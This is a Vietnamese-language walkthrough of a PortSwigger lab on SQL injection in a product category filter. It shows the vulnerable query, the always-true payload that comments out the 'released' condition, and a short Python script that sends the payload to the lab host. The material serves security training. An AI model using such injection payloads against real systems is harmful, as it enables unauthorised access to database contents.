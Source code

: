 Thử lọc sản phẩm theo Accessories, có thể thấy đó là GET request đến /filter?category=Accessories.

- Dựa vào mô tả, bài lab sử dụng câu query sau để thực hiện lọc các sản phẩm:

```sql
SELECT * FROM products WHERE category = 'Accessories' AND released = 1
```

### Khai thác

- Như vậy để solve bài lab với mục tiêu liệt kê tất cả sản phẩm có trong database, ta chỉ cần truyền giá trị cho category là `Accessories' or '1'='1' --` . Lúc này câu query trở thành:

```sql
SELECT * FROM products WHERE category = 'Accessories' or '1'='1' --' AND released = 1
```

- câu lệnh kia sẽ phân loại theo tên category và yếu tố released = 1, nên công việc của mình là: chèn vào 1 phần tử luôn đúng, khi đó sẽ không còn có chuyện phân loại theo tên category, và làm cho yếu tố released = 1 vô dụng.
- vì 1 luôn bằng 1 nên nó sẽ hiện hết các sản
- phẩm do câu lệnh SQL là SELECT \* (chọn hết), sau đó tiếp tục thêm phần `--` là ký hiệu của chú thích, nghĩa là sau dấu `--` tất cả sẽ vô nghĩa, nên phần lệnh `AND released = 1` đã trở nên vô nghĩa. - `category = 'Accessories' or '1'='1'` là điều kiện luôn đúng
  `--' AND released = 1`: phần sau đã bị comment

![image](https://hackmd.io/_uploads/Bk9mrVj9p.png)

gửi request và mình solve được lab

mình đã viết lại script khai thác

```python
#!/usr/bin/python3.7
import requests
import re
from bs4 import BeautifulSoup
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from urllib.parse import quote

url = 'https://0ab500c00442e54b808d26b000d30022.web-security-academy.net'

payload = "Accessories' or '1'='1' --"
params = {
    'category' : payload,
}
response = requests.get(
    url + "/filter",
    params=params,
    verify=False,
)

soup = BeautifulSoup(response.text,'html.parser')
print(soup)
```
